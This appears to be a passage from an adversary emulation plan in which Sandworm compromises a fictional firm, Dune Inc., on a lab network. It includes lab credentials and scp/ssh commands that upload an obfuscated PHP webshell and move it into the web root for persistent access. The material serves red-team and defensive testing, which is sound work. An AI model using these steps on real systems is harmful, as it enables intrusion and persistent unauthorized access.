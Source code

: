 # Scenario Overview

This scenario emulates Sandworm compromising a notional organization (Dune Inc.) with the goal of destroying data.

This scenario emulates Sandworm TTPs based on several malware specimens either used by or associated with the Sandworm actors:

1. P.A.S. Webshell
2. Exaramel (Linux and Windows variants)
3. NotPetya

---

## Step 11 - Initial Compromise

:microphone: `voice track`

Sandworm logs into patient zero via SSH using Valid Accounts for the user fherbert.

It is unknown how Sandworm obtained the credentials (perhaps an SSH password guessing attack, or zero day exploit).

Sandworm then deploys a PHP webshell for persistent access.

```
Compromised user info:

User:	fherbert

File write: /tmp/search.php, /var/www/html/search.php

System: 10.0.1.5 / caladan

C2:	192.168.0.4 connects to 10.0.1.5:443 via HTTPS (self signed cert)
```

### :biohazard: Procedures

Upload P.A.S. webshell to caladan/10.0.1.5 as `/tmp/search.php`.

```bash
# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

# Sandworm Team has used webshells including P.A.S. Webshell to maintain access to victim networks.

scp sandworm/Resources/phpWebShell/obfuscated_webShell.php fherbert@10.0.1.5:/tmp/search.php
```

Password:

`Whg42WbhhCE17FEzrqeJ`

Move P.A.S. webshell to `/var/www/html` so it can be invoked via httpd.

```bash
ssh fherbert@10.0.1.5 "sudo mv /tmp/search.php /var/www/html/"
```
